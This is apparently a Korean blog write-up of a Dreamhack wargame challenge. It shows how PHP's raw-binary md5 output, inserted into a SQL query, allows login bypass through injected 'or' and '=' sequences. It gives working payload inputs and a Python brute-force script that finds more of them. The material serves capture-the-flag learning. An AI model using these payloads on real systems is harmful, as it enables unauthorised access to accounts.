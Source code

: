 ```yaml
---
title: "PHP md5 (SQL Injection)"
excerpt: "php 의 md5 기능을 우회하여 sql injection 공격을 시도해보자."
categories:
    - dreamhack
tags:
    - wargame
    - php
    - md5
    - sqli
last_modified_at: 2023-09-12T09:13:00-05:00
---
```

## 문제
- [wargame.kr md5 password 워게임 Dreamhack](https://dreamhack.io/wargame/challenges/337)


## PHP md5
- md5 해시화를 이용하여 sql injection 공격을 시도할 수 있다.

### 분석
- php 의 md5 기능을 이용하여 사용자의 입력을 해시화 한다.
- 해시화 한 값을 이용하여 password 와 비교한다.

```sql
select * from admin_password where password='".md5($ps,true)."'
```

- md5(입력,true) : 16자리의 바이너리를 반환한다.
- md5(입력,flase) : 32 문자열 16진수를 반환한다.

### 공격

#### 방법 1 : or
- or 을 이용하여 password 인증을 우회해보자.
- 사용자의 입력을 md5 해시화를 진행하여 완성된 값에 `'or'` 이 존재하면 된다.

```
md5(입력,true)= aaa'or'bbb

select * from admin_password where password='aaa'or'bbb'
```

- or 앞 부분이 False 여도 뒷 부분이 true 이기 때문에 비밀번호 인증 우회가 가능하다.

- sql injection 공격 payload.

```
129581926211651571912466741651878684928

md5 = �T0D��o#��'or'8
```


#### 방법 2 : =
- = 을 이용하여 password 인증을 우회해보자.
- 사용자의 입력을 md5 해시화를 진행하여 완성된 값에 `'='문자` 이 존재하면 된다.

```
md5(입력,true) = asdfaskd'='asdf

select * from admin_password where password='asdfaskd'='asdf'
```

- 원리

```
where password='asdfaskd'='asdf'

는 먼저 앞 부분을 비교한다.

where (password='asdfaskd')='asdf'

where false='asdf' 

여기서 mysql false 의 타입은 tinyint 이고 값은 0 이다.
'asdf' 타입을 SIGNED 즉 int 형으로 바꿔서 비교를 진행한다.

따라서 비교하는 값은 다음과 같다.

where 0=0
```


- 직접 확인하기.

```sql
select false='123';
출력 = 0

select false='aaaa';
출력 = 1
```

- 여기서 주의해야 할 점이 있는데 `'123adfsf'` 와 같은 형태를 int 형으로 타입 변환하면 123 으로 변환되는 것을 확인할 수 있다.

```sql
select cast('123asdf' as SIGNED);
출력 = 123
```

- sql injection 공격 payload.

```
98750788
md5 = n�A�nI�^���h'='

하지만 다음 값은 실패한다.
38106544
md5 = &�p'='63@-��

왜냐하면
1. select * from admin_password where password='&�p'='63@-��'
2. select * from admin_password where false='63@-��'
3. select * from admin_password where false=63
4. select * from admin_password where 0=63

0과 63을 비교하는 형태가 되기 때문이다.
```


### 평문 값 찾기
- python 을 이용하여 `'='` 값이 들어가는 평문 값을 쉽게 찾아줄 수 있다.

```python
from hashlib import md5

key1 = b"'='"
key2 = b"'or'"
for i in range(100_000_000):
    e = md5(str(i).encode()).digest()
    if key1 in e:
        print(f'{key1} : {i} {e}')
    elif key2 in e:
        print(f'{key2} : {i} {e}')
```

## 참고 사이트
- [int의 종류 및 크기 tinyint, smallint, int, bigint 초간단 정리 (tistory.com)](https://heavening.tistory.com/85)
- [PHP: md5 - Manual](https://www.php.net/manual/en/function.md5.php)
- [mysql 온라인 컴파일러](https://onecompiler.com/mysql)
- [SQL injection with raw MD5 hashes (Leet More CTF 2010 injection 300) - Christian von Kleist (posthaven.com)](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)
